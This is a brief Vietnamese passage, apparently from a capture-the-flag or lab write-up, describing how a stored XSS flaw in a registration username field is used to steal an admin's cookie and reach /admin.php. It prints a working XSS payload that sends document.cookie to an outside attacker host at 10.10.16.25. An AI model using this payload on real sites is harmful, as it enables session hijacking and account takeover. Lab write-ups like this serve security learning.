 Cách khai thác : Ta có thể chèn lợi dụng lỗ hổng XSS Store để lấy được cookie của admin .Sau khi ta lấy được cookie admin thì có thể truy cập vào trang /admin.php
Payload XSS ta có thể chèn vào username đăng ký và payload sẽ thực thi khi admin click vào xem file ảnh ta tải lên 
Payload sử dụng khai thác XSS 
```bash
<img src=x onerror=this.src='http://10.10.16.25/?c='+document.cookie>
```
![alt text](image-14.png)

![alt text](image-15.png)
Tải ảnh để vote.